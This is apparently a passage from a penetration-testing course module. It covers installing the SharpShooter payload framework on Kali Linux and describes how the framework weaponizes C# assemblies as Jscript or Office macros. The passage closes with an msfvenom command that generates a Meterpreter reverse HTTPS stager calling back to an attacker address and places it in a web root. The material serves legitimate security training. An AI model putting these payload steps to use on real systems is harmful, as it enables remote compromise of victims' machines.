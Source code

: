 In recent years, it has become much more common to use DotNetToJscript to weaponize C# compiled assemblies in other file formats (like Jscript, VBScript, and even Microsoft Office macros). A payload generation tool called _SharpShooter_[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_4963-1) has been created to assist with this.

SharpShooter is "a payload creation framework for the retrieval and execution of arbitrary C# source code" and automates part of the process discussed in this module. As with any automated tool, it is vital that we understand how it works, especially when it comes to bypassing security software and mitigations that will be present in most organizations.

SharpShooter is written in Python 2, which reached its end-of-life on January 1, 2020. Although Kali Linux still provides support for Python 2, this support is not guaranteed in the future and may be removed without notice. Python 2 is no longer receiving security updates or bug fixes, and many libraries have dropped support for it.

SharpShooter is capable of evading various types of security software, but that topic is outside the scope of this Module.

We can install SharpShooter on Kali with **git clone** and Python2 **pip**[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_4963-2), as shown:

```
kali@kali:~$ cd /opt/

kali@kali:/opt$ sudo curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py

kali@kali:/opt$ sudo python2 ./get-pip.py

kali@kali:/opt$ sudo git clone https://github.com/mdsecactivebreach/SharpShooter.git
Cloning into 'SharpShooter'...

kali@kali:/opt$ cd SharpShooter/

kali@kali:/opt/SharpShooter$ sudo python2 -m pip install --upgrade setuptools pip==20.3.4

kali@kali:/opt/SharpShooter$ sudo pip2 install -r requirements.txt
```

> Listing 36 - Installing SharpShooter on Kali Linux

If confronted with a message that pip cannot be found, install the package using **sudo apt install python-pip**

With SharpShooter installed, let's try to replicate what we did manually in this Module: creating a shellcode runner with Jscript by leveraging DotNetToJscript.

First, we'll use **msfvenom** to generate our Meterpreter reverse stager and write the _raw_ output format to a file.

```
kali@kali:/opt/SharpShooter$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f raw -o /var/www/html/shell.txt
...
Payload size: 716 bytes
Saved as: /var/www/html/shell.txt
```
